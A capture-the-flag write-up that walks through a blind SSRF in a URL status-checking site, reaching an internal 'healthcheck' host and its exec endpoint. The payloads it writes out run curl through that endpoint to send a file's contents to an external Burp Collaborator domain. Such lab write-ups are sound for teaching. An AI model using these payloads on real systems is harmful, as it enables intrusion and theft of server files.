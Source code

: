# healthcheck

I left my hopes_and_dreams on the server. can you help fetch it for me?

[http://104.214.185.119/index.php](http://104.214.185.119/index.php)

**This website allows users to check the HTTP status code of any URL they enter.**

You just type in a link like http://example.com and the site tells you whether that page is reachable by returning a status code like 200 OK (success) or 404 Not Found. It 
does not show the page content just the status code.

**Payload**:

url = [http://104.214.185.119/index.php](http://104.214.185.119/index.php)

![548e99e2-3e15-40a5-9041-6af3f8097bcd](https://github.com/user-attachments/assets/99d6ac4c-7d0a-42a8-9cc8-9ff35fb8cd2f)

The server responded with a 200 status code, indicating it successfully fetched the page. I noticed the server only returned the status code and not the response body, suggesting this might be a Blind SSRF (Server-Side Request Forgery) challenge. That meant I couldn't directly view internal resources like the flag.

**Payload**:

`url=http://localhost`

This returned a 403 Forbidden response, implying that direct access to localhost was blocked.

**Payload**:

`url=http://127.0.0.1`

This also returned a 403, confirming that both hostname and IP-based access to internal services were restricted. I suspected basic SSRF protections were in place and started looking for bypasses using internal hostnames.

![171364cd-b354-4967-9be0-4ec824c193c9](https://github.com/user-attachments/assets/056024b0-1071-4f33-865b-a8d1153116e5)


Since localhost was blocked, I might be that the server is using internal hostnames that weren’t restricted. A common internal service name like healthcheck seemed worth testing.

**Payload**:

`url=http://healthcheck/hopes_and_dreams`

![image](https://github.com/user-attachments/assets/a5d7151f-31fb-428b-ac79-a9556ed8d15e)

This was a good discovery. The server returned 200, meaning healthcheck was a valid internal hostname and /hopes_and_dreams was an accessible endpoint or file. This could potentially contain the flag, but since this is a blind SSRF, I couldn’t view the contents directly.

To confirm the SSRF vulnerability, I injected a Burp Collaborator payload:

![Screenshot_2025-04-14_140954](https://github.com/user-attachments/assets/0fc76c35-5743-4cfc-9ab4-d4bebd5e3012)


The application made an HTTP request to my Collaborator domain confirming it was vulnerable to **Blind SSRF**.

![image 1](https://github.com/user-attachments/assets/ba7d78b0-a21b-4814-875b-0fb42b925069)

### Attempting Parameter-Based Exfiltration

Next, I tried appending parameters to trick /hopes_and_dreams into making outbound requests with 

payloads:

`url=http://healthcheck/hopes_and_dreams?callback=z9992jhxfhoaqrrutldhhjqriio9cz0o.oastify.com`

`url=http://healthcheck/hopes_and_dreams?webhook=z9992jhxfhoaqrrutldhhjqriio9cz0o.oastify.com`

No interactions were observed in Burp Collaborator. This implied /hopes_and_dreams was likely a static file or an endpoint that ignored URL parameters.

### Discovering the exec Endpoint

Realizing hopes_and_dreams alone wasn’t enough, I try to find other internal endpoints that might allow command execution or file access. An exec endpoint seemed likely for running commands.

**Payload**:

`url=http://healthcheck/exec?cmd=curl+z9992jhxfhoaqrrutldhhjqriio9cz0o.oastify.com`

Burp Collaborator received a GET request to /test.

The exec endpoint executed my curl command and made an outbound request to my Collaborator URL. This confirmed I could run arbitrary commands and use them to interact with the system and exfiltrate data. My next task was to use this to read hopes_and_dreams.

I tried to read the file using shell substitution:

**Payload**:

`url=http://healthcheck/exec?cmd=curl+z9992jhxfhoaqrrutldhhjqriio9cz0o.oastify.com/$(cat+hopes_and_dreams)`

Burp Collaborator received a request to /cat, not the file contents.

Result: Only /cat was fetched.
Conclusion: Shell substitution wasn’t supported—commands weren’t run in a full shell.

I adjusted my approach to use curl data-binary option, which sends a file’s contents in the request body, avoiding the need for shell substitution.

**Payload**:

`url=http://healthcheck/exec?cmd=curl+-X+POST+--data-binary+@hopes_and_dreams+z9992jhxfhoaqrrutldhhjqriio9cz0o.oastify.com`

Burp Collaborator received a POST request with the contents of hopes_and_dreams in the body, revealing the flag!

![7d5028fa-631d-4a6e-86d2-df8852f34528](https://github.com/user-attachments/assets/8bf9e454-01f7-4785-8633-d48431b10765)

### Why It Worked?

- The SSRF allowed me to reach internal services like healthcheck/exec.
- The exec endpoint ran arbitrary commands.
- curl read the file and sent it in a POST request to my external server.
- This avoided shell substitution issues and allowed full exfiltration of the file.
